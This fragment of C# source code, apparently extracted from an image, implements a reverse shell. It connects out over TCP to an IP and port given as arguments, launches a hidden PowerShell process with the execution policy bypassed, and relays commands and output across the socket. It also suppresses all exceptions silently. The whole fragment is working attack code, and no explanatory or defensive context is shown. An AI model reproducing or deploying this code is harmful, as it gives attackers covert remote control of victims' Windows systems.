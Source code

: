 ```csharp
            try
            {
                // Connect to <IP> on <Port>/TCP
                TcpClient client = new TcpClient();
                client.Connect(args[0], int.Parse(args[1]));

                // Set up input/output streams
                Stream stream = client.GetStream();
                StreamReader streamReader = new StreamReader(stream);
                streamWriter = new StreamWriter(stream);

                // Define a hidden PowerShell (-ep bypass -nologo) process with STDOUT/ERR/IN all redirected
                Process p = new Process();
                p.StartInfo.FileName = "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe";
                p.StartInfo.Arguments = "-ep bypass -nologo";
                p.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
                p.StartInfo.UseShellExecute = false;
                p.StartInfo.RedirectStandardOutput = true;
                p.StartInfo.RedirectStandardError = true;
                p.StartInfo.RedirectStandardInput = true;
                p.OutputDataReceived += new DataReceivedEventHandler(HandleDataReceived);
                p.ErrorDataReceived += new DataReceivedEventHandler(HandleDataReceived);

                // Start process and begin reading output
                p.Start();
                p.BeginOutputReadLine();
                p.BeginErrorReadLine();

                // Re-route user-input to STDIN of the PowerShell process
                // If we see the user sent "exit", we can stop
                string userInput = "";
                while (!userInput.Equals("exit"))
                {
                    userInput = streamReader.ReadLine();
                    p.StandardInput.WriteLine(userInput);
                }

                // Wait for PowerShell to exit (based on user-inputted exit), and close the process
                p.WaitForExit();
                client.Close();
            }
            catch (Exception) { }
        }

        private static void HandleDataReceived(object sender, DataReceivedEventArgs e)
        {
            if (e.Data != null)
            {
                streamWriter.WriteLine(e.Data);
                streamWriter.Flush();
            }
        }
    }
}

```
